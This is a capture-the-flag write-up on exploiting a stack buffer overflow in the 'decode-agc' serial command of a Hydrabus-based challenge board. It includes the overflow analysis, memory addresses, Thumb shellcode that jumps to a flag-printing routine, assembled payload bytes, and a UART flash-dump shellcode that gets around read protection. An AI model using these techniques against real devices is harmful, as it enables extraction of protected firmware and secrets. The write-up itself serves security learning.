


# HydraJet2 by Phil

This challenge was created by *Phil*.

## Description

The challenge decription is : 

```
Pico is a space exploration enthusiast.

He acquired an AGC module from an Apollo rocket and has started reverse engineering it. To aid in his endeavor, he forked the Hydrabus project. 
But Pico never takes the bus, he only travels with his personal jet plane, so he renamed the project Hydrajet.

Pico is particularly intrigued by the command aspect of the AGC. He has discovered a serial link between the keyboard and the computing unit, noting the use of a serial connection. Consequently, he implemented an AGC command decoder. The question remains: did he do it correctly? Get the flag.
```

CTFd tells it's a "Pwn" challenge, and it needs one HydraJet, serial module and ST-Link interface.
This aimed to an exploiting on the HydraJet.

At the first level we’ve seen that 2 flags are available in the flash:
```
$ strings hydrafw.elf| grep ph0wn{         
agc decoder (BETA)          ph0wn{Stage1Stage1Stage1.}
ph0wn{Stage2Stage2Stage2Stage2Stage2Stage2Stage2Stage2}
```

The first idea is to connect the ST-Link (pins SWD_DEBUG) to the HydraJet and try to dump the flash. But, bad luck, the STM32 is in **RDP1** mode. This means you can’t read the flag, but the good thing is to see the SWD port isn’t closed. So, the RAM can be dumped and can give you some useful information later.

Now it’s time to open the firmware with a reverse engineering tools and have a look inside. The first step is to locate the string `ph0wn{Stage2Stage2Stage2Stage2Stage2Stage2Stage2Stage2}`. XREF it gives you an interesting function “void FUN_0802c270(int param_1)”. The goal of this function is to read some bytes from a serial port and decode them. To get out from this active polling function, you need to press the “user” button located on HydraJet's side.
So, you need to hook a serial module on the HydraJet (pins PA9, PA10, GND) and try to interact with it.
Playing a little with `decode-agc` function will let you crash easily the HydraJet with a long string. A classic buffer overflow. 
The second way to identify the bug is to have a look at the buffer size and the call to the `readbyte()` function in the reversed code: there is a len mismatch with 40 and 0x40.

At this point, having a better idea of the memory mapping is mandatory. You need to connect the ST-Link again and fill the `decode-agc` buffer with a few chars you’ll expect to find in the memory dump. And try to make a memory map from the zone:




Now, you have a payload address and the return address to smash. It’s time to think on the easiest way to get out the flag. 

The flag’s `printf()` is ready, but could not be reached, because 0x666 bytes are impossible to be read from UART. And, second problem, as HydraBus uses a high-level OS (ChibiOS) smashing the stack has more consequences. The `printf()` function has a sort of descriptor (a stdin/stdout like), and smashing the local stack will stop the `printf()` to print any char.

So, you need to preserve the stack pointer at the very first beginning of your payload.
To summarize, the important address:

- 0x20015AE4 :	The exploit
- 0x0802c2d8 :	The printf(‘flag’) code
- 0x0802c35a :	pop pc who will launch the exploit

The following shellcode will do the job:
```
$ cat printfcode.S    
.thumb

start:
    sub sp, #0x48               // add exacly the same value as FUN_0802c270 (push + 0x44 = 0x48)
    ldr r0, printf_adr          // load the @ of the printf('flag') deadcode
    bx r0                       // jump to the printf

    nop                         // 2 bytes lost to align the @ bellow on 32 bits memory position
printf_adr:
.word 0x0802c2d9
```

This gives the following payload:
```
92 B0 01 48 00 47 C0 46 D9 C2 02 08
```

And the full payload, preserving stuff in the stack + the good return address:




The way to launch the shellcode is to run the `decode-agc` feature, send the payload and press the user button. The HydraJet will print on your control menu the flag and stop.

A second way to solve this challenge is to use a more general-purpose solution: a dump code.
This old ancient art has been taught to me in the 2000s by a guy from Switzerland called Balda and this code is still working now days. The idea is to use the UART to get the bytes out of the STM32.

All addresses are the same and the stack need to be preserved too, but for another reason than preserve the full context as in the first solution. The HydraBus is using a high-level OS and some interrupt occurs. If you don’t correct the stack before sending the very first byte, the payload is overwrite and a crash occur. Here is the payload:

```
$ cat dumpcode.S      
.thumb

start:
    sub sp, #0x50               // protect the current code from interruption
    mov r2, #0x80               // TXE bit
    ldr r0, flash_adr           // @ to dump
    ldr r1, uart_base_adr       // uart1 base @

.send_loop:
    ldrb r3, [r0]               // load flash value from r0 into r3
    add r0, #1                  // next byte

    strb r3, [r1, #7]           // send current byte  USAR_DR

.wait_tx:
    ldr  r3, [r1, #0]           // get status register  USAR_SR
    and  r3, r3, r2             // keep only TXE bit
    beq  .wait_tx               // tx fifo empty?
    b .send_loop                // infinite loop to next byte


    nop                         // 2 bytes lost to align the 2 @ bellow on 32 bits memory position
flash_adr:
.word 0x0804a978

uart_base_adr:
.word 0x40011000
```

And it reveal the flag: `ph0wn{You_d_never_imagine_using_an_Hydrabus_like_this!}`


\newpage
